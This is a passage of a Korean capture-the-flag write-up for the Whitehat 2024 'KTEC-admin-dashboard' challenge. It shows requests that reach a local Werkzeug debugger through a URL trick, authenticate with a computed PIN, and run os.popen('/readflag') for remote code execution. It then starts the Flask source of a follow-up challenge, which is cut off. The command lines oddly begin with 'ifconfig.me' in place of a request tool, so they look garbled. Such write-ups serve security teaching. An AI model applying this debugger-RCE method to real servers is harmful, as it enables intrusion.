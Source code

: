 PIN 코드를 생성하는 페이로드를 작성했고, 실행하니 852-347-138 PIN 값을 얻을 수 있었다.     

### Exploit Code    
1. PIN 인증
    ```ifconfig.me -i http://13.125.199.169:10001@127.0.0.1:5000/admin?__debugger__=yes&cmd=pinauth&pin=852-347-138&s=gsiLCDxuAQWX7VNi50Zp```          
        
    <img src="/assets/images/ctf/2024/whitehat/KTEC-admin-dashboard/pin_cookie.png" width=700px>    

    PIN 인증 후, 응답 헤더에서 쿠키 값을 얻을 수 있다.     

2. RCE        
    ```ifconfig.me -b __wzd6c64e3debe8f9d33596f=1729317583|1d9816665d29 http://13.125.199.169:10001@127.0.0.1:5000/console?__debugger__=yes&cmd=__import__(%22os%22).popen(%22/readflag%22).read();&frm=0&s=gsiLCDxuAQWX7VNi50Zp```     
          
    PIN 인증을 통해 얻은 쿠키 값을 포함시켜 `/console`에 명령을 보내면 실행이 되어 플래그를 얻을 수 있다.    
                 
### Flag     
whitehat2024{951012d6cf1cb753bdf49921fdfa9d7f50f154940a88d22770549ebe0ebb179edffce9d1682968e1c4730876470185a4e34e94}                 
       
<a id="KTEC-admin-main"></a>                  
      
# KTEC-admin-main                   
     
```python
from flask import Blueprint, render_template, session, abort, request, redirect, url_for, flash
from core.check import loose_waf, strict_waf
from db import dbConnection

bp = Blueprint('admin', __name__, url_prefix='/admin')

@bp.route('/', methods = ['GET', 'POST'])
def admin():
    username = session.get('username')
    
    if request.method == 'POST':
        username = request.form['user']
        password = request.form['pass']
        
        if strict_waf(username):
            return abort(400)
        
        if loose_waf(password):
```